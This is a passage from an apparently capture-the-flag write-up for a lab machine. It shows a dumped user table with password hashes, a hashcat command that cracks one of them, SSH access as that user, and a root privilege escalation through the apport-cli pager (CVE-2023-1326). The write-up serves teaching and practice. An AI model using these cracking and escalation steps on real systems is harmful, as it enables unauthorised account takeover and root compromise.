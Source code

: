 ```
mysql> select id, username, password from sd4fg_users;
+-----+----------+--------------------------------------------------------------+
| id  | username | password                                                     |
+-----+----------+--------------------------------------------------------------+
| 649 | lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| 650 | logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+-----+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)

```

The hash for logan was crackable using an offline bruteforce attack. Using his user credentials an SSH connection to the host could be established and the user flag was found.

```
hashcat -O -m 3200 -a 0 hashes /usr/share/wordlists/rockyou.txt

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```
```
logan@devvortex:~$ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXx
```

## Privilege Escalation
Running `sudo -l` showed that the logan user is allowed to run the apport-cli tool using sudo. Based on [CVE-2023-1326][CVE-2023-1326] this tool is vulnerable to a privilege escalation because it uses less as a pager, which allows execution of commands and does not drop root permissions immediately.

```
logan@devvortex:~$ sudo /usr/bin/apport-cli --hanging 1

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (28.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V                    # I ran !sh
# whoami
root
```

```
# cat root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


[CVE-2023-23752]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23752
[CVE-2023-1326]: https://nvd.nist.gov/vuln/detail/CVE-2023-1326